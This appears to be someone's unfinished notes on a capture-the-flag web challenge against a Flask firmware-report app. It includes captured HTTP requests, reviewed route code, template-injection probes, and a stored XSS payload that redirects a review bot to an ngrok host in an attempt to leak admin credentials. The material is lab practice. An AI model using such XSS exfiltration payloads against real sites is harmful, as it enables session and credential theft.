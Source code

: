
**Created a user, logged in, found a firmware ‘report’ page where I can raise an issue abuot a firmware
Tried a cookie stealer link but it does not send one
Looked at the source and there is bot going to /review
Tried to use my cookie to go there, but got an unauthorized\.\.
**
GET /review HTTP/1\.1
Host: 138\.68\.188\.223:30696
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,image/webp,\*/\*;q=0\.8
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=29d5c8df\-c0d8\-47e1\-95de\-b9c3ab061726
Upgrade\-Insecure\-Requests: 1

**However, noticed that the unauthorized referenced workzeug/python:**

HTTP/1\.1 401 UNAUTHORIZED
Server: Werkzeug/2\.1\.1 Python/3\.10\.0
Date: Mon, 16 May 2022 08:54:33 GMT
Content\-Type: text/html; charset=utf\-8
Content\-Length: 343
Set\-Cookie: session=29d5c8df\-c0d8\-47e1\-95de\-b9c3ab061726; HttpOnly; Path=/

\<\!DOCTYPE HTML PUBLIC "\-//W3C//DTD HTML 3\.2 Final//EN"\>
\<title\>401 Unauthorized\</title\>
\<h1\>Unauthorized\</h1\>
\<p\>The server could not verify that you are authorized to access the URL requested\. You either supplied the wrong credentials \(e\.g\. a bad password\), or your browser doesn\&#x27;t understand how to supply the credentials required\.\</p\>

**So, there are probably flask / jinja / templating bugs here\.\.**

**I can try \{\{ 7 \* 7 \}\} and \{\{ 7 \* ‘7’ \}\} in the report:**

**No way to see this though\.\. I don't think\.\.

Found a route to upload firmware via the API in the code\.\.Probably need to be on as admin though??**

@api\.route\('/firmware/upload', methods=\['POST'\]\)
@login\_required
@is\_admin
def firmware\_update\(\):
if 'file' not in request\.files:
return response\('Missing required parameters\!'\), 401

extraction = extract\_firmware\(request\.files\['file'\]\)
if extraction:
return response\('Firmware update initialized successfully\.'\)

return response\('Something went wrong, please try again\!'\), 403
**
But, we need to be admin\.
Lets see how we could do that\.
**
**/login seems to have an interesting line:
**
@api\.route\('/login', methods=\['POST'\]\)
def user\_login\(\):
if not request\.is\_json:
return response\('Missing required parameters\!'\), 401

data = request\.get\_json\(\)
username = data\.get\('username', ''\)
password = data\.get\('password', ''\)

if not username or not password:
return response\('Missing required parameters\!'\), 401

user = User\.query\.filter\_by\(username=username\)\.first\(\)

if not user or not user\.password == password:
return response\('Invalid username or password\!'\), 403

login\_user\(user\)
return response\('User authenticated successfully\!'\)

**So, the user query seems to filter by username, but returns the \.first\(\) match\.\.
So, if I was using username ‘ad’,  it would still probably find me as a first match for 'admin'\.\.**

user = User\.query\.filter\_by\(username=username\)\.first\(\)

if not user or not user\.password == password:
return response\('Invalid username or password\!'\), 403

**But, I cannot leverage this for anything\.\.**
**Looked at the**‘is\_admin’ **function:**
**So, what is @functools\.wraps\) ??**

def is\_admin\(f\):
@functools\.wraps\(f\)
def wrap\(\*args, \*\*kwargs\):
if current\_user\.username == current\_app\.config\['ADMIN\_USERNAME'\] and request\.remote\_addr == '127\.0\.0\.1':
return f\(\*args, \*\*kwargs\)
else:
return abort\(401\)

return wrap

**Looked this up\.\.

\-\-\-\>functools\.wraps**
**\<\-\-\-**

**Nothing important, just a functional wrapper\.\.

So, I need to somehow leak current\_app\.config\['ADMIN\_USERNAME'\] and set header of REMOTE\_ADDR: 127\.0\.0\.1 to be admin\.\.\.
I might be able to do the former by using a template somewhere, and the latter by using the bot for a cookie on /review maybe??
**
**Tried leaking the admin username/password via the firmware report\.\.**

POST /api/firmware/report HTTP/1\.1
Host: 138\.68\.188\.223:30696
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: \*/\*
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Referer: [http://138.68.188.223:30696/dashboard](#http://138.68.188.223:30696/dashboard)

Content\-Type: application/json
Origin: [http://138.68.188.223:30696](#http://138.68.188.223:30696)

Content\-Length: 148
DNT: 1
Connection: close
Cookie: session=29d5c8df\-c0d8\-47e1\-95de\-b9c3ab061726

\{"module\_id":"10","issue":"\<script\>document\.location='[https://1dd3-216-93-199-231.ngrok.io/?c={{](#https://1dd3-216-93-199-231.ngrok.io/?c={{)
ADMIN\_USERNAME \}\} \{\{ ADMIN\_PASSWORD \}\}';\</script\>"\}

**However, it just posted them without templating properly\. Of course\.\.**

127\.0\.0\.1 \- \- \[16/May/2022 02:35:02\] "GET /?c=\{\{%20ADMIN\_USERNAME%20\}\}%20\{\{%20ADMIN\_PASSWORD%20\}\} HTTP/1\.1" 404 \-

**Since they are in msg I am not sure if I can use them there\.\. Probably not

Idk, will come back to this tomorrow\.\. too tired to continue**
